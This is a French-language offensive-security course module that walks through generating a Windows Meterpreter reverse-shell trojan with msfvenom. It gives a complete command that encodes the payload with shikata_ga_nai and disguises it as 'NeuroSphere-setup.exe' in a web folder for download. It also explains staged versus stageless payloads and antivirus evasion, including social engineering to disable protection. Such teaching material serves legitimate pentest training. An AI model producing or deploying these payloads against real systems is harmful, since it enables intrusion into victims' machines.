

# Module 2 - Génération du Payload (msfvenom)

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="Metasploit, msfvenom"
  data-time="~20 min">
</div>

## Introduction

!!! quote "Analogie pédagogique — L'effraction inversée"
    Imaginez un coffre-fort (le pare-feu de l'entreprise). Il est impossible de le forcer de l'extérieur. L'astuce du *Reverse Shell* consiste à glisser sous la porte un petit robot (le payload). Une fois à l'intérieur, c'est le robot lui-même qui ouvre la porte de l'intérieur vers l'extérieur pour vous laisser entrer. Les pare-feux bloquent presque toujours le trafic entrant, mais bloquent rarement le trafic sortant.

## 2.1 - L'outil : msfvenom

`msfvenom` est le générateur de charges utiles (*payloads*) du framework **Metasploit**. Il permet de combiner du code malveillant (shellcode) avec un format de sortie exécutable (exe, elf, apk) et de l'encoder pour tenter de tromper les antivirus.

Nous allons générer un exécutable Windows, `NeuroSphere-setup.exe`, qui établira une connexion vers notre machine d'attaquant (Kali Linux).

<br>

---

## 2.2 - La Commande de Génération (Réelle)

!!! caution "Usage pédagogique exclusif"
    La commande suivante génère un **véritable malware** (*Trojan Reverse Shell*). Assurez-vous de l'exécuter dans un environnement de laboratoire virtualisé (Host-Only ou Réseau Interne isolé).

Dans votre terminal Kali Linux, exécutez :

```bash title="Génération du payload NeuroSphere (Bash)"
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=192.168.56.20 \
         LPORT=4444 \
         -a x64 \
         --platform windows \
         -e x64/shikata_ga_nai \
         -i 3 \
         -f exe \
         -o /var/www/html/NeuroSphere-setup.exe
```


<p><em>Exécution de la commande msfvenom. L'outil assemble le shellcode, l'encode, et l'injecte dans un exécutable Windows.</em></p>

### Explication détaillée des paramètres

| Paramètre | Signification technique |
|---|---|
| `-p windows/x64/...` | Définit le Payload. Ici, on demande une session **Meterpreter** en architecture 64-bits avec une connexion inversée (`reverse_tcp`). |
| `LHOST=192.168...` | Local Host : l'adresse IP de votre machine d'attaquant Kali (vers laquelle la victime va se connecter). |
| `LPORT=4444` | Local Port : le port d'écoute sur votre machine (4444 est le port par défaut historique de Metasploit, il est préférable de changer pour 443 en situation réelle). |
| `-e x64/shikata_ga_nai` | Définit l'encodeur. L'encodeur obfusque le shellcode. |
| `-i 3` | Itérations d'encodage (la charge est chiffrée 3 fois sur elle-même). |
| `-f exe -o ...` | Format de sortie (exécutable Windows classique) et chemin de destination (directement dans le dossier web pour le téléchargement). |

### 2.2.1 Staged vs Stageless : La subtilité du `/`

Dans notre commande, le payload est `windows/x64/meterpreter/reverse_tcp`. Les barres obliques (`/`) indiquent qu'il s'agit d'un payload **Staged** (fragmenté).
- **Le Stager (l'amorce)** : Un très petit bout de code, dont le seul but est de se connecter à l'attaquant, d'allouer de la mémoire, et de télécharger la suite.
- **Le Stage (la charge complète)** : La véritable DLL Meterpreter, téléchargée dans un second temps et injectée directement en mémoire.

À l'inverse, un payload avec un *underscore* (`meterpreter_reverse_tcp`) est **Stageless** : la totalité du code Meterpreter est incluse dans l'exécutable initial. Bien que plus lourd, le *Stageless* évite d'être bloqué lors de la phase de téléchargement de la charge secondaire par les pare-feux stricts.

<br>

---

## 2.3 - La limite de l'obfuscation (Shikata ga nai)

L'encodeur `shikata_ga_nai` (qui signifie "on ne peut rien y faire" en japonais) a longtemps été le cauchemar des antivirus car il est **polymorphe**. Il utilise un chiffrement additif (XOR) avec une clé aléatoire générée à chaque compilation : il produit un exécutable à l'empreinte binaire (hash) totalement différente à chaque exécution.

**Cependant**, un payload obfusqué par un encodeur est composé de deux parties :
1. **La charge utile (chiffrée)** : Indétectable car cryptée.
2. **Le Décodeur (Stub)** : Une petite boucle de code en clair, chargée de déchiffrer la charge utile en mémoire au moment de l'exécution.

Aujourd'hui, cet encodeur est tellement connu que les solutions EDR et Antivirus modernes détectent **la signature statique du décodeur lui-même** ou son comportement heuristique en RAM. C'est pourquoi un simple encodage ne suffit plus face à un EDR, justifiant l'ingénierie sociale pour désactiver la protection en amont.

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Un *Reverse Shell* inverse la logique réseau pour contourner le pare-feu. La victime (client) se connecte à l'attaquant (serveur), rendant l'intrusion totalement furtive au moment de l'initialisation.

> Le piège est tendu et le fichier est prêt à être téléchargé sur notre faux site web. Il faut maintenant que l'attaquant se mette sur écoute pour réceptionner la connexion dans le **[Module 3 : Exploitation et Serveur C2 →](./03-exploitation-c2.md)**

<br>